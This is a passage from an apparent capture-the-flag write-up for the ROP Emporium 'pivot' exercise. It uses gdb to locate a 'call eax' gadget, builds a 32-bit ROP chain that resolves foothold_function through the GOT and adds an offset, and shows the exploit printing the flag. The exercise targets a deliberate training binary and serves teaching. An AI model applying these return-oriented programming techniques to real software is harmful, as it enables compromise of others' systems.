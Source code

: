 ```sh
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)

```

0x080485f0 - 0x08048570 = 0x80 = 16 * 8 = 64 * 2 = 128

Using gdb to find the actual location in memory...

```asm
gef➤  info files
Symbols from "/home/ubuntu/ropemporium/pivot/pivot32".
Native process:
	Using the running image of attached process 4501.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/ubuntu/ropemporium/pivot/pivot32', file type elf32-i386.
	Entry point: 0x8048570
	...
	0x08048570 - 0x080488a2 is .text
	...	
gef➤  x/i main
   0x8048686 <main>:	lea    ecx,[esp+0x4]
gef➤  x/i 0x08048570+0x80
   0x80485f0 <deregister_tm_clones+32>:	call   eax
gef➤  
   0x80485f2 <deregister_tm_clones+34>:	add    esp,0x10
```

Okay, this should do it:

```python
call_eax_gadget = p32(elf.symbols['deregister_tm_clones'] + 32)
rop_chain = [
        fhold_addr,          # first, call foothold_function, so that it's address in memory is linked and resolved in the got
        eax_gadget,             # 1. pop eax; ret
        eax,                    #       &foothold_function@got.plt
        mov_gadget,             # 4. mov eax dword ptr [eax]; ret
        ebx_gadget,             # 5. pop ebx; ret 
        p32(503),               #       503 is popped into ebx
        add_gadget,             # 6. add eax, ebx; ret
        call_eax_gadget
        ]
```

Voila.

```sh
ubuntu@ubuntu:~/ropemporium/pivot$ python3 exploit.py 2>/dev/null  | grep ROPE 
ROPE{TITLEFIGHT}

```


